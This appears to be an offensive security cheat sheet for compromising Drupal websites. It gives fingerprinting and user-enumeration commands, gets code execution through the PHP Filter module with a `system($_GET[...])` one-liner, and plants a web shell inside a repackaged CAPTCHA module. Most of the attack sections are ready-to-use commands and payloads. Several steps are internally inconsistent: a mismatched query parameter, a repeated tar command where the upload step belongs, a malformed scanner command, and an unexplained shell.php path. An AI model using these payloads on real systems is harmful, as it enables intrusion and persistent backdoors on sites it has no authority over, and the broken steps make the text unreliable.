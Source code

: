 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Drupal is a free and open-source content management system (CMS) used to build and manage websites. It's written in PHP and provides a backend framework for at least 2.3% of all websites worldwide, from personal blogs to corporate, political, and government sites.


### **Identifying Drupal Version**

1.  View the CHANGELOG.txt file to identify the Drupal version:  
    `http://[DRUPAL-DOMAIN]/CHANGELOG.txt`
2.  For Drupal 8 and above, the core/CHANGELOG.txt file can be used to determine the version:  
    `http://[DRUPAL-DOMAIN]/core/CHANGELOG.txt`
3.  The drupal.js file may contain version information:  
    `http://[DRUPAL-DOMAIN]/misc/drupal.js`
4.  Check the page source for meta tags indicating the Drupal version:  
    `<meta name="generator" content="Drupal 7 (http://drupal.org)" />`
5.  Droopescan is a scanner that can enumerate Drupal installations  
    `droopescan scan drupal -u http://[DRUPAL-DOMAIN]`
6.  Nmap, with the http-drupal-enum script, can be used to enumerate Drupal installations  
    `nmap -sV --script http-drupal-enum --script-args http-drupal-enum.basepath=/ http://[DRUPAL-DOMAIN]`

### **User Enumeration Techniques**

1.  Analyze error messages to identify existing user accounts. Drupal redirects to user pages if the account exists:  
    `for i in {1..10}; do curl -s -o /dev/null -w "%{http_code}" http://[DRUPAL-DOMAIN]/user/$i; done`
    
2.  Measure response times for different user actions to infer the existence of user accounts:
    
    ```python
    import requests
    import time
    
    def measure_response_time(url, data):
        start_time = time.time()
        response = requests.post(url, data=data)
        end_time = time.time()
        return end_time - start_time
    
    user_exists = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'existing_user', 'password': 'wrong_password'})
    user_not_found = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'nonexistent_user', 'password': 'wrong_password'})
    print('Existing user:', user_exists, 'Nonexistent user:', user_not_found)
    ```
    
3.  Check for user-specific customization or redirections. If redirects to a login page for non-existent users and to a dashboard for existing users, this could be a potential vector for username enumeration.  
    `http://[DRUPAL-DOMAIN]/users/[USERNAME]`
    
4.  Droopescan can also be used to check for user enumeration  
    `drupal -u http://[DRUPAL-DOMAIN] --enumerate u`
    
5.  Investigate forums, articles, and comments on the target Drupal site. Users often leave traces or use similar usernames across different platforms.
    
6.  If the Drupal site has JSON API  you might be able to retrieve user information:  
    `curl -s http://[DRUPAL-DOMAIN]/jsonapi/user/user | jq`  
    Look for unique identifiers or username fields in the JSON response.
    

### **PHP Code Execution in Filter Module (Drupal)**

#### **Step 1: Enable PHP Filter Module**

1.  Access the module administration panel by navigating to:  
    `http://[DRUPAL-DOMAIN]/#overlay=admin/modules`
2.  Locate and enable the PHP Filter module, then save the configuration.

#### **Step 2: Create a Page with PHP Code**

1.  Navigate to the Content Creation Section:  
    `http://[DRUPAL-DOMAIN]/#overlay=node/add`
2.  Add a new Basic page, place the following PHP code to test command execution:  
    `<?php system($_GET['hackfast']); ?>`
3.  Ensure that the text format is set to "PHP code".
4.  Save the page. Note the URL of the newly created page, for example:  
    `http://[DRUPAL-DOMAIN]/node/1`

#### **Step 3: Execute Commands**

1.  To run commands, add a query string with the command you wish to execute, such as:  
    `http://[DRUPAL-DOMAIN]/node/1?cmd=id`
2.  Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/node/1?cmd=id'`

### **Modify and Upload Module with Web Shell**

1.  Download a module from Drupal.org, e.g., CAPTCHA:  
    `wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz`
    
2. Extract archive:  
    `tar xvf captcha-8.x-1.2.tar.gz`
    
3. Add a PHP web shell into one of the PHP files:  
    `<?php system($_GET['cmd']); ?>`
    
4. Create a .htaccess file. This allows bypassing Drupal default access controls:
    
    ```
    <IfModule mod_rewrite.c>
      RewriteEngine On 
      RewriteBase /  
    </IfModule>
    ```
    
5. Place this file in the root directory of the modified module.
    
6. Repackage the modified module:  
    `tar cvf modified_captcha.tar.gz captcha/`
    
7. Upload the module through the Drupal admin interface.  
    `tar cvf modified_captcha.tar.gz captcha/`
    
8. Install the module.
    
9. Navigate to the web shell URL and add the command:  
    `http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id`
    
10. Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id'`